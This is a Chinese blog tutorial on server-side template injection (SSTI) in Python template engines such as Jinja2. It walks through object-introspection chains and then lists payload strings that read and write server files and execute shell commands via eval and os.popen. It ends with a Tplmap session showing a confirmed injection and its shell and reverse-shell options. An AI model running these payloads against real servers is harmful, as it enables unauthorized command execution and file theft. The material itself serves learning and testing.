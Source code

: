 ﻿---
title: SSTI学习(一)
categories: web漏洞
---
## 一：什么是SSTI
SSTI就是`服务器端模板注入`(Server-Side Template Injection)，也给出了一个注入的概念。

SSTI也是注入类的漏洞，其成因其实是可以类比于sql注入的。

SSTI也是获取了一个输入，然后再后端的渲染处理上进行了语句的拼接，然后执行。当然还是和sql注入有所不同的，SSTI利用的是现在的`网站模板引擎`(下面会提到)，主要针对python、php、java的一些网站处理框架，比如Python的jinja2 mako tornado django，php的smarty twig，java的jade velocity。当这些框架对运用渲染函数生成html的时候会出现SSTI的问题。

<!--more-->
---
## 二：模板引擎

模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，用于网站的模板引擎就会生成一个标准的HTML文档。

模板引擎可以让（网站）程序实现界面与数据分离，`业务代码与逻辑代码的分离`，这就大大提升了开发效率，良好的设计也使得代码重用变得更加容易。


**也就是说，利用模板引擎来生成前端的html代码，模板引擎会提供一套生成html代码的程序，然后只需要获取用户的数据，然后放到渲染函数里，然后生成模板+用户数据的前端html页面，然后反馈给浏览器，呈现在用户面前。**

![](https://img-blog.csdnimg.cn/20210303152031737.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## 三：一些模块引擎判断


![](https://img-blog.csdnimg.cn/20210303152120691.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## 四：关于SSTI 的python类的知识

面向对象语言的方法来自于类，对于python，有很多好用的函数库，我们经常会再写Python中用到import来引入许多的类和方法，python的str(字符串)、dict(字典)、tuple(元组)、list(列表)这些在Python类结构的基类都是object，而object拥有众多的子类。

输入：

```bash
 >>> ''.__class__
 <type 'str'>
 >>> ().__class__
 <type 'tuple'>
 >>> [].__class__
 <type 'list'>
 >>> {}.__class__
 <type 'dict'>
```
`___class__`：用来查看变量所属的类，根据前面的变量形式可以得到其所属的类。

```bash
>>> ().__class__.__bases__
(<type 'object'>,)
>>> ''.__class__.__bases__
(<type 'basestring'>,)
>>> [].__class__.__bases__
(<type 'object'>,)
>>> {}.__class__.__bases__
(<type 'object'>,)

>>> [].__class__.__bases__[0]
<type 'object'>
```
`__bases__`：用来查看类的`基类`，也可是使用数组索引来查看特定位置的值

```
>>> [].__class__.__bases__[0].__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'sys.getwindowsversion'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'nt.stat_result'>, <type 'nt.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <type 'operator.itemgetter'>, <type 'operator.attrgetter'>, <type 'operator.methodcaller'>, <type 'functools.partial'>, <type 'MultibyteCodec'>, <type 'MultibyteIncrementalEncoder'>, <type 'MultibyteIncrementalDecoder'>, <type 'MultibyteStreamReader'>, <type 'MultibyteStreamWriter'>]
```

`__subclasses__()`：查看当前类的子类。

当然我们也可以直接用`object.__subclasses__()`，会得到和上面一样的结果。

获取基类还能用还有`__mro__`，比如：

```bash
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)
>>> [].__class__.__mro__
(<class 'list'>, <class 'object'>)
>>> {}.__class__.__mro__
(<class 'dict'>, <class 'object'>)
>>> ().__class__.__mro__
(<class 'tuple'>, <class 'object'>)

>>> ().__class__.__mro__[1]            //使用索引就能获取基类了
<class 'object'>
```

---
## 五：常用方法

```bash
//获取基本类
''.__class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
object

//读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()
object.__subclasses__()[40](r'C:\1.php').read()

//写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
object.__subclasses__()[40]('/var/www/html/input', 'w').write('123')

//执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
object.__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

```

---
## 六：工具使用- Tplmap

```bash
root@kali:/mnt/hgfs/共享文件夹/tplmap-master# python tplmap.py -u "http://192.168.1.10:8000/?name=Sea"                             //判断是否是注入点
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name                //说明可以注入，同时给出了详细信息
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok           //检验出这些利用方法对于目标环境是否可用
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:
                                                                  //可以利用下面这些参数进行进一步的操作
    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
--download REMOTE LOCAL	Download remote files

```

拿shell、执行命令、bind_shell、反弹shell、上传下载文件，Tplmap为SSTI的利用提供了很大的便利

---
## 七：参考
[SSTI完全学习](https://blog.csdn.net/zz_Caleb/article/details/96480967)

